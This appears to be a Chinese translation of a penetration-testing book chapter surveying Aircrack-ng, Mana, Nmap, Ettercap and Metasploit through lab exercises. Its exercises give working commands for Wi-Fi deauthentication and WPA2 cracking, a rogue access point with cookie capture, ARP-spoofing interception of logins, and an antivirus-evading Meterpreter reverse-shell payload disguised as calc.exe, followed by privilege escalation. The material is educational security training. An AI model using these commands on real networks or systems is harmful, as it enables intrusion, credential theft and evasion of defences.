

# 第六章：探索黑客工具包

正如你可能知道的那样，黑客和渗透测试人员在工作中不仅使用小型独立的工具，还经常使用（可能更常见的是）各种安全工具集和专为渗透测试构建的操作系统发行版，其中包含了所需的工具。

在本章中，我们将回顾工具包、框架和发行版，并提供它们在我们实验室环境中的应用示例，以帮助你熟悉这些工具，并帮助你选择希望深入学习的工具包，以应对你的任务。

在本章中，我们将涵盖以下主题：

+   无线黑客工具

+   基础设施黑客工具

+   破解工具

+   Web 应用程序黑客工具

# 无线黑客工具

根据我们书中关于构建无线网络实验室的论述，我们将开始回顾渗透测试框架和工具包，首先讨论一个专门关于无线黑客的主题。

## Aircrack-ng

当我们谈论 Wi-Fi 黑客的方式和工具时，首先浮现在我们脑海中的就是 Aircrack-ng（[`www.aircrack-ng.org`](http://www.aircrack-ng.org)）。尽管有一个独立的工具用于破解 WEP、WPA 和 WPA2 安全，但整个工具集被称为 Aircrack-ng，而破解工具只是其中之一。

我们不会夸大其词地说，Aircrack-ng 是我们最喜欢的，也是 Wi-Fi 渗透测试项目中必用的工具包，尽管我们并不总是使用其中包含的所有工具。

该工具包主要为 Linux 和命令行使用开发，尽管它也可以在 Windows 下使用，我们建议只在`*nix`类系统下使用，因为在 Windows 下有很多限制。

使用 Aircrack-ng 有三种方式：

+   从源代码或包管理器在 Linux 主机上安装 Aircrack-ng，例如，在类似 Debian 的系统中（它已经预安装在像 Kali Linux 这样的渗透测试发行版中）：

    ```
    **apt-get install airckrack-ng**

    ```

+   从安装了 Aircrack-ng 的 Live CD 启动

+   下载一个已安装 Aircrack-ng 的 VMware 虚拟机镜像

### 内容

以下列表展示了该框架的工具，并为你提供每个工具的简短描述：

+   **Airbase-ng**：此工具用于创建软件 AP 并攻击无线客户端。

+   **Aircrack-ng**：这实际上是用于 WEP 和 WPA/WPA2 密钥恢复的破解工具。

+   **Airdecap-ng**：此工具用于解密 WEP 和 WPA/WPA2 的无线流量。

+   **Airdecloak-ng**：此工具用于破解 WEP 隐身功能，这是 WEP 中用于欺骗破解工具的一种方法。

+   **Aireplay-ng**：此工具生成附加的无线流量，以便执行各种攻击类型。

+   **Airmon-ng**：此工具将无线接口切换到监视模式，从而允许低级别的无线流量操作。

+   **Airodump-ng**：此工具用于 802.11 监控和嗅探。

+   **Airodump-ng-oui-update**：顾名思义，该工具用于更新 Airodump-ng 的**组织唯一标识符** (**OUI**) 数据库。

+   **Airolib-ng**：该工具用于维护一个本地的 ESSID、密码短语和预计算的 PMK 数据库，以便在破解时使用（这个思路与使用彩虹表类似）。

+   **Airserv-ng**：该工具允许多个应用通过 TCP 连接作为服务器访问 Wi-Fi 接口。

+   **Airtun-ng**：这是用于创建虚拟隧道接口的工具。

+   **Besside-ng**：这是一个自动化的 WEP 和 WPA 攻击工具，用于破解所有可接入的 WEP 保护网络，并记录所有可用的 WPA 握手。

+   **Easside-ng**：该工具允许我们在没有 WEP 密钥的情况下，通过 WEP 保护的 AP 进行通信。

+   **Packetforge-ng**：顾名思义，该工具用于创建伪造的无线数据包，以用于其他攻击。

+   **Tkiptun-ng**：根据官方文档，该工具非常有用：

    > 该工具能够向 WPA TKIP 网络中注入一些带有 QoS 的帧。

    但本书的作者尚未使用过该工具，且不确定它是否已发布或仍在开发中。

+   **Wesside-ng**：这是一个自动化的 WEP 攻击工具，用于破解所有可接入的 WEP 保护网络，无需用户交互。

### 注意

关于这些工具及其文档的详细描述，请参阅官方的 Aircrack-ng 网站 ([`www.aircrack-ng.org/`](http://www.aircrack-ng.org/))。

### 练习

让我们在 Linux 下使用 Aircrack-ng 进行一个简单的练习。作为示例，我们将破解一个 WPA2 密钥：

1.  作为 Wi-Fi 渗透测试的第一步，我们需要将 Wi-Fi 接口切换到混杂监控模式，以便让系统“监听”所有 Wi-Fi 数据包，并允许它在低级接口上注入无线流量。假设我们的无线接口是`wlan1`，可以通过`airmon-ng`工具如下操作：

    ```
    **airmon-ng start wlan1**

    ```

    然后，我们可以看到接口已切换到监控模式的报告：

    

1.  上述命令将无线接口切换到监控模式，并创建一个虚拟接口`wlan1mon`，我们将在接下来的步骤中使用它。你可以看到，`airmon-ng`会警告你某些进程可能会冲突，并提供这些进程的列表。如果你想快速终止所有这些进程，只需执行以下命令：

    ```
    **airmon-ng check kill**

    ```

1.  现在，让我们监听无线信号，看看周围有什么并选择一个目标。可以使用`airodump-ng`工具，并以监控虚拟接口的名称作为参数来完成：

    ```
    **airodump-ng wlan1mon**

    ```

    让工具运行一段时间（5 分钟应该足够），然后你可以看到两个表格，它们会以实时模式更新。请查看下面的截图：

    

1.  在第一个表格中，你可以看到我们的实验室 WLAN 和它们的安全类型，表格列出了可访问的 AP。所以，让我们攻击访客 WLAN，因为我们拥有这个网络，无需额外的权限就可以进行攻击。

1.  我们需要获取一个 WPA 握手来破解它，而握手可以通过被动等待设备与 AP 建立连接时嗅探到。但是，为了扩展我们的示例并向你展示 `aireplay-ng` 工具的使用方法，我们将使用一种主动攻击，迫使已经连接到 WLAN 的设备断开连接并尝试重新连接。

1.  要执行定向攻击，我们需要重新启动 `airodump-ng`，并添加更多参数以便只嗅探我们的访客 WLAN 的通信。这些参数包括目标 BSSID、目标 Wi-Fi 通道和捕获文件名。前两个参数的值来自第一次 `airodump-ng` 捕获的结果：

    ```
    **airodump-ng --bssid 68:B6:FC:15:27:18 --channel 11 --write guest_dump wlan1mon**

    ```

    在结果中，你将得到一个更加简洁的输出，显示只有目标 WLAN 的信息，如下图所示：

    

1.  当 `airodump-ng` 不在不同的频道之间跳转时，它能更好地检测已连接的客户端。我们需要选择一个与 AP 关联的设备，并使用 `aireplay-ng` 以 AP 身份（伪造）对其执行去身份认证攻击。让我们攻击上一截图中硬件地址为 `C8:F7:33:0E:73:38` 的客户端。打开一个新的终端窗口并执行以下命令：

    ```
    **aireplay-ng --deauth 5 -a 68:B6:FC:15:27:18 -c F8:A9:D0:65:50:B6 wlan1mon**

    ```

    在以下截图中，你可以看到 `aireplay-ng` 正在执行攻击，而 `airodump-ng` 捕获到一个正在尝试重新认证的客户端的 WPA 握手：

    

    或者，你也可以不那么温和地执行广播去身份认证攻击，对所有已连接的客户端进行攻击，命令如下：

    ```
    **aireplay-ng --deauth 5 -a 68:B6:FC:15:27:18 wlan1mon**

    ```

1.  如果设备配置为自动重新连接到 WLAN，我们将能够捕获下一个 WPA 握手，并在 `airodump-ng` 终端的右上角看到相应的消息。

1.  现在让我们创建一个简短的字典文件，并将我们的访客 WLAN PSK 添加到其中。

1.  之后，只需启动 `aircrack-ng` 工具，并将转储文件和字典文件作为参数：

    ```
    **aircrack-ng guest_dump-01.cap -w wordlist.txt**

    ```

    破解时间可能会根据字典文件的大小而有所不同，但如果正确的 PSK 在字典中，它会被找到并显示给你，如下图所示：

    

到这时，你可以使用恢复的 PSK 连接到 WLAN，从而绕过 WLAN 的安全设置。

## Mana

Mana 是另一个有趣的 Wi-Fi 渗透测试工具包，主要用于攻击无线客户端，而非无线网络。它可以通过恶意接入点执行中间人攻击，并通过虚假的互联网收集凭据。

Mana 是一个基于修改版 Hostapd 软件的 Linux 工具包（用于创建软件访问点），并包含以下启动脚本，用于在各种攻击模式下启动 Mana（描述来自原始的 README 文件）：

+   `start-nat-full.sh`：这将启动 MANA，使用 NAT 模式（你需要一个上游连接），并包含所有的中间人攻击（MitM）功能。

+   `start-nat-simple.sh`：这将启动 MANA，在 NAT 模式下运行，但不包含任何 `firelamb`、`sslstrip`、`sslsplit` 等工具。

+   `start-noupstream.sh`：这将启动 MANA，在“假互联网”模式下运行。这对于那些人们打开了 Wi-Fi 但没有上游互联网的地方很有用。还包含了强制门户。

+   `start-noupstream-eap.sh`：这将启动 MANA，使用 EAP 攻击和 `noupstream` 模式。

Mana 工具包可以通过三种方式下载并安装：

+   从 Git 仓库 [`github.com/sensepost/mana`](https://github.com/sensepost/mana) 下载（`git clone + make install`）

+   通过从 Mana 存档中启动 `ubuntu-install.sh` 或 `kali-install.sh` 脚本

+   使用 `apt-get`：`apt-get install mana-toolkit`

安装后，Mana 软件可以在 `/usr/share/mana-toolkit/` 找到，其配置文件可以在 `/etc/mana-toolkit/` 中找到。

### 练习

让我们使用 Mana 工具包设置一个恶意 AP，尝试嗅探客户端流量：

1.  如果你还没有在你的 Linux 攻击者机器上安装 Mana 工具包，请进行安装。

1.  将无线接口连接到攻击者机器，并使用 `iwconfig` 命令查找其名称：

    ```
    **iwconfig**

    ```

    从命令输出中，我们可以看到（在我们的例子中）是 `wlan1`：

    ```
    **eth0      no wireless extensions.**
    **lo        no wireless extensions.**
    **wlan1     IEEE 802.11bgn  ESSID:off/any** 
     **Mode:Managed  Access Point: Not-Associated   Tx-Power=0 dBm** 
     **Retry short limit:7   RTS thr=2347 B   Fragment thr:off**
     **Encryption key:off**
     **Power Management:on**

    ```

    现在，我们需要调整要使用的脚本和相应的配置文件。我们将使用 `start-nat-full.sh`。用编辑器打开脚本文件，并将 `phy` 参数的值更改为你的 Wi-Fi 接口名称（在我们的例子中是 `wlan1`）。

1.  对应的配置文件名称可以在脚本开始处找到，它是 `/etc/mana-toolkit/hostapd-karma.conf`。你还需要检查参数 `interface` 和 `driver` 的值是否与你的 Wi-Fi 接口相符。

1.  现在，只需运行脚本，Mana 就会设置一个恶意 AP，并配置所有必要的工具，模拟一个提供免费互联网访问和记录客户端流量的 Wi-Fi 热点。

1.  检查是否成功创建了 EvilAP。打开可用的无线网络，查看是否有 **Internet**（或者如果你在配置文件中更改了 SSID，查看是否有你的恶意 SSID）：

1.  连接到恶意 WLAN 并尝试访问各种网站。你应该能在终端看到受害者的连接数据和攻击详情：

1.  Mana 会自动尝试执行中间人攻击（MitM）以破解 SSL，并使用 `sslstrip` 工具强制通过 HTTP 而非 HTTPS 连接网页。你可以在 `/var/lib/mana-toolkit/` 中找到收集的信息。

1.  Mana 还使用了 Firelamb 工具来捕获受害者的 cookies。你可以使用 `/usr/share/mana-toolkit/run-mana/firelamb-view.sh` 脚本查看所有捕获的 cookies。该工具甚至会为你用拦截到的 cookies 打开浏览器会话：

# 基础设施黑客工具

基础设施黑客攻击是一个非常广泛的话题，包括了许多子话题，每个子话题都可以被区分为一个独立的巨大安全领域。因此，针对各种任务和场景，有许多黑客工具集、框架和软件包，要描述它们所有的话，需要一本完整的书。为了简洁起见，我们将只回顾可能最流行、最免费且最著名的黑客工具和框架——**Metasploit 框架**（也叫 **MSF**），它由公司 Rapid7 维护。

## Nmap

Nmap 是黑客和渗透测试者最常用的网络安全工具（也是我们最喜欢的工具）。这是一个用于发现和枚举可用主机、开放端口和网络服务等的优秀工具。它可用于安全检查，确定主机上运行的服务，识别操作系统和应用程序，甚至识别扫描节点上使用的防火墙类型。

Nmap 的源代码和二进制文件可以在官方网站上获取（[`nmap.org/download.html`](http://nmap.org/download.html)）。也有 Windows 版本。如果你使用的是 Linux，可以在大多数发行版的仓库中找到 Nmap 包。例如，在 Debian Linux 中，你可以在控制台中输入以下命令：

```
**apt-get install nmap**

```

几秒钟后，你的系统上就会有一个可用的二进制文件。

Nmap 是一个控制台应用程序，但在讨论如何在控制台中使用它之前，应该注意 Nmap 有一个 GUI 界面，你可以用它来输入命令并运行扫描任务。这个界面叫做 Zenmap。Zenmap 允许你选择目标，运行扫描任务，显示结果，保存结果，并与其他人比较结果。

GUI Zenmap 是熟悉 Nmap 的一个好方法，但如果你打算高效地使用 Nmap，最好还是学会如何在控制台中使用命令行参数。

Nmap 命令行的语法如下：

`nmap [扫描类型] [选项] {目标规格}`

术语的定义如下：

+   `扫描类型`：这是一种扫描技术。它可以是简单的 ping 扫描（`-sn`）、TCP ACK 扫描（`-sS`）、UDP 扫描（`-sU`）、特殊的 Xmas 扫描（`-sX`）或 TCP Null 扫描（`-sN`），用于尝试绕过防火墙。Nmap 不仅限于这些技术，还有其他方法。你可以通过执行 Nmap 帮助命令获取完整的列表：

    ```
    **nmap -h**

    ```

+   `选项`：这是一组扫描参数。Nmap 选项的完整描述超过 100 页。因此，我们这里只提供几个示例：

    +   扫描的端口（`-p`）

    +   探测开放端口以确定服务/版本信息（`-sV`）

    +   是否解析目标主机的 DNS 名称

    +   启用操作系统检测（`-O`）

    +   防火墙/IDS 绕过和欺骗技术

    +   输出参数（Nmap 有三种基本输出格式：普通、XML 和可抓取格式；这提供了更大的结果处理自由度）

+   `target specification`：这是我们设置目标的参数。用户可以通过将目标地址作为执行命令的参数或作为文件（使用选项`-iL`）来设置目标地址，其中每一行是一个主机地址。

大多数选项可以彼此结合使用。有些选项用于选择扫描方法，而其他选项则用于使用额外的功能或调整扫描的各种设置。Nmap 会警告用户关于选项组合无效的情况。如前所述，要快速概览所有选项，您应当使用`-h`参数运行 Nmap。

关于选项的详细列表，您可以参考 Nmap 的主页([`nmap.org/book/man-briefoptions.html`](https://nmap.org/book/man-briefoptions.html))，或在 Linux 上使用`man`命令：

```
**man nmap**

```

Nmap 是一个非常强大的工具，可以提供大量信息，如目标主机上运行的操作系统、开放端口、设备的 MAC 地址等，具体取决于扫描选项和目标本身。

### 脚本引擎

在完成对这个伟大软件的回顾后，我们将探讨为什么许多专家称 Nmap 为瑞士军刀。**Nmap 脚本引擎**（**NSE**）是通过使用 LUA 语言编写附加功能来增强 Nmap 的决策结果。

要使用脚本，需要使用`--script`键，并将脚本名称作为参数`(--script=<script name>)`。

目前，Nmap 分发包中包含了种类繁多的现成脚本，可用于以下目的：

+   信息收集

+   深入的主机和网络服务发现

+   身份验证过程检查

+   暴力攻击，如密码猜测

+   DoS 攻击

+   漏洞识别

+   漏洞利用

可用脚本和描述的完整列表可以在[`nmap.org/nsedoc`](http://nmap.org/nsedoc)找到。

如果标准包中没有您所需的功能，您可以编写自己的脚本以满足您的需求。

### 示例

现在，我们想向您展示 Nmap 的强大功能。为了演示，我们将扫描用户网络段中的一台 Windows 7 机器。该机器安装了 MS SQL Express 和 MS IIS7.5 服务器，且其 Windows 防火墙已关闭。为此，我们执行以下命令：

```
**nmap -sS -sV -O -sC -T4 --traceroute 172.16.0.102**

```

在这里，我们使用：

+   `-sS`：用于 TCP Syn 扫描

+   `-sV`：用于确定开放端口的网络服务版本（这是一个非常“嘈杂”的选项）

+   `-O`：用于检测操作系统版本

+   `-sC`：这等同于`--script=default`，即所有**默认**类别的脚本

+   `-T4`：用于设置快速时间模板

+   `172.16.0.102`：这是我们目标的 IP 地址

几分钟后，我们将得到以下结果：


正如你所见，输出结果足够详细且清晰。

### 注意

Nmap 的作者 *戈登·"费奥多"·莱昂* 写了《*Nmap 网络扫描：Nmap 项目官方网络发现与安全扫描指南*》，*Nmap 项目*。如果你想充分发挥 Nmap 的威力，我们强烈建议你阅读这本书。它在亚马逊上有售（[`www.amazon.com/dp/0979958717?tag=secbks-20`](http://www.amazon.com/dp/0979958717?tag=secbks-20)）。

## Ettercap

在黑客攻击网络基础设施的过程中，**中间人**（**MitM**）类型的攻击经常被使用。这类攻击通常既容易执行，又容易被识别，因为它们由于生成大量的辅助流量而显得非常“嘈杂”。但因此，你可以获得大量有用的信息，并且能够控制受害者。

有很多工具可以执行中间人攻击。对于 Microsoft Windows 家族的操作系统，最流行的工具是 Cain（[`www.oxid.it/cain.html`](http://www.oxid.it/cain.html)）和 Intercepter-NG（[`sniff.su/`](http://sniff.su/)）。它们都有简单的图形用户界面和丰富的功能。执行攻击只需几次鼠标点击。另一个值得一提的类似工具是跨平台工具 Bettercap（[`www.bettercap.org/`](https://www.bettercap.org/)）。

作为一种经典的工具，也是我们最喜爱的中间人攻击（尤其是 ARP 欺骗）工具之一，我们将回顾 Ettercap（[`ettercap.github.io/ettercap/`](http://ettercap.github.io/ettercap/)）。

Ettercap 是一款用于分析网络安全的工具，具有各种功能，例如监听网络流量、内容过滤等，适用于网络和主机分析。

Ettercap 支持不同的协议（Telnet、FTP、POP3、IMAP、SMB、HTTP 等），可以用于：

+   操作系统指纹识别

+   重置网络连接

+   根据一组参数过滤网络流量

+   执行各种协议的欺骗攻击，如 DNS

可能性的完整列表要大得多。Ettercap 拥有许多功能，并且由于大量插件的支持而不断扩展。

在攻击结果中，获取到的数据可以在线查看（例如，如果网络流量中有密码，它们会立即显示出来），也可以保存到文件中。

Ettercap 的安装包可以在官方网站上找到（[`ettercap.github.io/ettercap/downloads.html`](https://ettercap.github.io/ettercap/downloads.html)），你可以在这里下载它。

Ettercap 是一款 Linux 软件，因此它提供了一个便捷的控制台管理界面，具备所有相关功能。但它也有图形用户界面。要在图形模式下运行，你需要使用`-G`键启动 Ettercap。


所以，让我们来尝试一下 Ettercap。

### 练习

现在让我们尝试在几种模式下启动 Ettercap，看看它是什么样子的：

1.  要启动 Ettercap 进入嗅探模式，我们应当执行 Ettercap 二进制文件，指定要使用的网络接口（在我们的例子中是 `-i eth0` 或 `-iface eth0`），以及以下其中一个选项来确定用户界面的类型：

    +   `-T` (`--text`)：此选项使用纯文本 GUI

    +   `-C` (`--curses`)：此选项使用 curses GUI

    +   `-D` (`--daemon`)：此选项将 Ettercap 守护进程化（无 GUI）

    +   `-G` (`--gtk`)：此选项使用带 GUI 的 GTK

        ```
        **ettercap --text --iface eth0**

        ```

    以下命令启动 Ettercap 进入嗅探模式：

    你应该看到类似以下的输出：

    

1.  正如你所见，Ettercap 的输出也像 Nmap 的输出一样具有很高的信息量。当你想要停止 Ettercap 时，只需按下 *q* 键，它会报告是否正确终止：

    ```
    **Terminating ettercap...**
    **Lua cleanup complete!**
    **Unified sniffing was stopped.**

    ```

1.  Ettercap 以执行 ARP 欺骗攻击而获得了其流行度。假设我们想要使用 Ettercap 拦截工作站与另一工作站上的 web 接口之间的流量（中间人攻击）。以下是使用 Ettercap 执行 ARP 欺骗 MitM 攻击的示例：

    ```
    **ettercap -text --iface eth0 --write traffic.pcap --mitm arp:remote /172.16.0.91/ /172.16.0.102/**

    ```

    Here:

    +   `--text`：这是文本模式用户界面

    +   `--iface eth0`：这是使用的网络接口

    +   `--write traffic.pcap`：这是以 PCAP 文件格式存储的网络流量转储（或者你可以使用 `-L log.txt` 以 Ettercap 格式记录）

    +   `--mitm arp:remote`：这是 MitM 攻击及其类型

    +   `/172.16.0.91/ /172.16.0.102/`：攻击的目标

    我们可以看到拦截的 HTTP 流量以及登录和密码：

    

### 注意

如果你想要了解更多关于 Ettercap 的信息（我们相信你可能会，因为它是一个很棒的工具），我们建议你像往常一样阅读官方文档，并额外关注“etterfilters”功能，它显著扩展了 Ettercap 的功能和能力。你可以使用 `man` 命令获取 Ettercap 和它的 etterfilters 的描述：

```
**man ettercap**
**man etterfilter**

```

## Metasploit Framework

Metasploit 是一个出色的渗透测试工具，包含数百个模块和利用程序，允许用户快速编写和集成自己的模块和扩展。

通过编写的主要是 Ruby 的代码，Metasploit 是跨平台的，即它不针对任何特定的操作系统。

Metasploit 可以从官方网站 [`www.metasploit.com`](http://www.metasploit.com) 和 GitHub 仓库 [`github.com/rapid7/metasploit-framework`](https://github.com/rapid7/metasploit-framework) 下载。

你可以下载各种版本的 Metasploit：

+   **Metasploit Framework**：这仅适用于 Metasploit Framework 命令行工具的用户

+   **Metasploit Community**：这是面向学生和小型企业的功能有限的社区版

+   **Metasploit Pro**：这是面向渗透测试人员和安全专业人员的商业版

在我们的情况下，我们将仅考虑 Framework 版本，因为它功能完备且免费。功能模块分为五类：

+   **辅助**：这个类别包含用于支持利用过程的工具。它包含发现模块、信息收集模块、扫描器、服务器等。

+   **利用**：这个类别包含用于利用漏洞的模块。利用类别分为几个平台子类别，如 Windows、Linux、Solaris、OS X 等。

+   **有效载荷**：这个类别包含各种类型的有效载荷，可以与利用一起使用。

+   **编码器**：这个类别包含用于编码利用和有效载荷以绕过目标系统安全机制的工具。

+   **后期**：这个类别包含后期利用工具，当与目标主机建立网络连接时可以使用，比如权限提升、远程主机信息收集等。

Metasploit 有几个主要的用户界面：

+   Shell（`msfconsole`）。

+   Web 界面（在社区版和专业版中可用）。

+   第三方 GUI（Armitage 和更高级的 Cobalt Strike）。

但框架的基本功能是通过以下可执行文件实现的：

+   `msfrpc`: 用于远程服务器实现（基于远程过程调用）。

+   `msfconsole`: 这是通过控制台命令行与 Metasploit 进行交互的主要实用程序。

+   `msfd`: 这个实用程序允许生成 msfconsole 的一个实例，并允许远程用户连接并使用它。

+   `msfupdate`: 这是一个更新实用程序。

+   `msfvenom`: 该实用程序用于创建有效载荷。

标准用户界面是一个交互式控制台命令行，可以通过执行`msfconsole`命令来运行。在这个界面中，用户可以感受到 Metasploit 的强大。

使用 Metasploit 框架的工作包括以下关键步骤：

1.  信息收集和漏洞条件识别（辅助模块）。

1.  选择和配置用于远程目标对象的利用。

1.  选择和配置将要使用的有效载荷。

1.  选择和配置将用于绕过安全机制（如入侵检测系统）的编码。

1.  利用远程系统。

1.  保持访问。

1.  后期利用操作（后期模块）。

Metasploit 易于使用。它的创建目的是协助和简化渗透测试专家的工作。

以下是最受欢迎的命令：

+   `use`: 用于选择一个模块。

+   `search`: 该命令用于搜索模块。

+   `show options`: 用于查看模块配置的设置。选择一个利用后，您可以看到可用于自定义的选项。

+   `show payloads`: Metasploit 包含许多有效载荷。这个命令显示所有可用的有效载荷。通过使用这个命令，您还可以查看特定操作系统或利用的推荐有效载荷。

+   `info`: 用于查看有关模块的信息。

+   `set`：此命令设置参数，例如 RHOST（远程），LHOST（本地）或用于利用的有效载荷。

+   `exploit`：这用于模块执行。

### 注意

Metasploit 框架确实是展示某人漏洞的一种非常方便的方式，但不幸的是，不可能在一个简短的评论主题中描述 Metasploit 的所有功能，这超出了我们书籍的范围。如果您决定在自己的工作中使用 Metasploit，我们强烈建议您阅读以下书籍：

+   *Metasploit 揭秘* 作者 Offensive Security ([`www.offensive-security.com/metasploit-unleashed/`](https://www.offensive-security.com/metasploit-unleashed/))

+   *Metasploit 渗透测试食谱* 作者 Abhinav Singh ([`www.packtpub.com/networking-and-servers/metasploit-penetration-testing-cookbook`](https://www.packtpub.com/networking-and-servers/metasploit-penetration-testing-cookbook))

+   *精通 Metasploit* 作者 Nipun Jaswal ([`www.packtpub.com/networking-and-servers/mastering-metasploit`](https://www.packtpub.com/networking-and-servers/mastering-metasploit))

+   *学习 Metasploit 渗透和开发* 作者 Aditya Balapure ([`www.packtpub.com/networking-and-servers/learning-metasploit-exploitation-and-development`](https://www.packtpub.com/networking-and-servers/learning-metasploit-exploitation-and-development))

### Meterpreter

Meterpreter ([`github.com/rapid7/meterpreter`](https://github.com/rapid7/meterpreter)) 是 Metasploit 的一部分，也是 Metasploit 中最受欢迎的有效载荷之一。在 Metasploit 的上下文中，Meterpreter 是一种灵活，可扩展，功能齐全且统一的后渗透基础，作为传统 shellcode 的替代方案。它具有许多功能：shell，迁移进程，加密以绕过入侵检测系统，防病毒软件，DLL 注入，枢轴，以及自动化可能性。

顺便说一句，我们还可以使用`metsvc`作为有效载荷，它将在远程系统上将 Meterpreter 安装为远程 Windows 主机操作系统的服务（类似于后门）。

在成功利用远程主机上的漏洞并在 Metasploit 的交互式控制台中加载有效载荷（在我们的情况下是 Meterpreter）后，我们获得了 Meterpreter 的功能齐全的控制台命令行，可以执行命令。 Meterpreter 的所有命令可以分为不同的类别（通过执行`help`命令可以获取此信息）：

+   **核心命令**：这些是用于 Meterpreter 会话管理的基本命令

+   **Stdapi—文件系统命令**：这些命令用于在远程文件系统上移动，文件操作命令，下载和上传文件命令等。

+   **Stdapi—网络命令**：这些命令用于显示有关网络组件的信息，查看和修改路由表，并管理将本地端口转发到远程的操作。

+   **Stdapi—系统命令**：这些命令对于操作远程系统和该系统的进程非常有用。

我们现在不描述 Meterpreter 的所有命令，因为这将需要许多页面的文字。最好通过一个实际的示例来展示它是如何工作的。

### 示例

作为 Metasploit 使用的示例，我们考虑一种情况，其中 Meterpreter 被打包成一个可执行文件，并在一个不谨慎用户的 Windows 工作站上执行。结果，Meterpreter 与预定义的 IP 地址（攻击者的机器）建立连接，允许攻击者在受害者的工作站上执行命令：

1.  首先，让我们创建我们的有效负载。为此，我们应执行以下命令：

    ```
    **msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.0.191 lport=8888 -a x86 --platform win -e x86/shikata_ga_nai -i 3 -x calc.exe -f exe-only > payload_fake_calc_enc.exe**

    ```

    在这里：

    +   -`p windows/meterpreter/reverse_tcp`：此选项指定我们将使用的有效负载（要查看支持的完整有效负载列表，只需执行命令`msfvenom –l payloads`）

    +   `lhost=10.0.0.191`：此选项指定攻击者主机的地址以供回连

    +   `lport=8888`：此选项指定回连的端口号

    +   `-a x86`：此选项指定目标系统的架构

    +   `--platform win`：此选项指定目标系统的平台

    +   `-e x86/shikata_ga_nai`：此选项指定要应用于有效负载的编码算法，以尽量避免被防病毒软件检测到

    +   -`i 3`：此选项指定所需的编码迭代次数

    +   `-x calc.exe`：此选项指定作为模板使用的自定义可执行文件

    +   `-f exe-only`：此选项指定输出格式

    +   `payload_fake_calc_enc.exe`：这是我们生成的恶意可执行文件的输出文件名

1.  此命令的输出应如下所示：

    ```
    **Found 1 compatible encoders**
    **Attempting to encode payload with 3 iterations of x86/shikata_ga_nai**
    **x86/shikata_ga_nai succeeded with size 360 (iteration=0)**
    **x86/shikata_ga_nai succeeded with size 387 (iteration=1)**
    **x86/shikata_ga_nai succeeded with size 414 (iteration=2)**
    **x86/shikata_ga_nai chosen with final size 414**
    **Payload size: 414 bytes**

    ```

1.  现在我们有了 `payload_fake_calc_enc.exe` 文件，接下来需要将该文件传输到受害者主机。你可以直接复制到那里，并假设受害者/用户是从互联网下载的该文件。

1.  现在，我们需要在攻击者的机器上开始监听传入的连接。为此，通过在控制台中执行命令`msfconsole`来启动 Metasploit Framework。几秒钟后，Metasploit 将加载并启动，邀请我们进入命令提示符。

1.  要开始监听，让我们选择所需的模块：

    ```
    **msf > use exploit/multi/handler** 

    ```

    设置要等待连接的有效负载类型：

    ```
    **msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcpand** 

    ```

    我们应该看到以下确认：

    ```
    **PAYLOAD => windows/meterpreter/reverse_tcp**

    ```

1.  然后，我们需要设置一些此特定有效负载所需的选项（监听的本地地址和端口）：

    ```
    **msf exploit(handler) > set LHOST 10.0.0.191**
    **msf exploit(handler) > set LPORT 8888**

    ```

    Metasploit 将确认两个选项是否已设置：

    ```
    **LHOST => 10.0.0.191**
    **LPORT => 8888**

    ```

1.  要开始监听，我们需要执行 `exploit` 命令：

    ```
    **msf exploit(handler) > exploit -j**

    ```

    如果一切顺利，我们应该看到以下输出：

    ```
    **[*] Exploit running as background job.**
    **[*] Started reverse handler on 10.0.0.191:8888** 
    **[*] Starting the payload handler...**

    ```

1.  所以，一切已设置好，准备进行攻击。让我们在受害者主机上执行我们生成的恶意文件 `payload_fake_calc_enc.exe`。在 Metasploit 控制台中，我们将看到如下内容：

    ```
    **[*] Meterpreter session 1 opened (10.0.0.191:8888 -> 10.0.0.163:49166) at 2015-12-18 00:14:46 +0300**

    ```

1.  要开始与 Meterpreter 会话交互，我们需要执行以下命令：

    ```
    **msf exploit(handler) > sessions -i 3**

    ```

1.  之后，我们将进入 Meterpreter 会话的交互式控制台。现在，我们可以在会话内执行命令，这些命令将在远程受害主机上执行。例如，我们需要执行`getuid`命令查看启动我们会话的用户环境，并且要获取当前进程的标识符，我们可以使用`getpid`命令：

    ```
    **meterpreter > getuid**
    **meterpreter > getpid**

    ```

    这些命令产生以下输出：

    ```
    **Server username: WS1\John**

    **Current pid: 2648**

    ```

1.  为了提升权限，我们可以使用`getsystem`命令：

    ```
    **meterpreter > getsystem**

    ```

    此命令产生以下输出：

    ```
    **...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).**

    ```

    然后使用`getuid`命令检查结果：

    ```
    **meterpreter > getuid**

    ```

    现在我们拥有系统权限，可以从命令输出中看到这一点：

    ```
    **Server username: NT AUTHORITY\SYSTEM**

    ```

1.  要列出远程系统上所有正在运行的进程，我们可以使用`ps`命令：

    ```
    **meterpreter > ps**

    ```

    输出列出了所有运行中的进程及其标识符和其他有用的信息：

    ```
    **Process List**
    **============**
    **PID   PPID  Name                 Arch  Session  User                          Path**
    **0     0     [System Process]** 
    **4     0     System               x64   0** 
     **12   4     smss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe**
    **384   376   csrss.exe            x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe**
    **400   816   audiodg.exe          x64   0** 
    **432   376   wininit.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe**
    **440   424   csrss.exe            x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe**
    **468   424   winlogon.exe         x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe**

    **…**

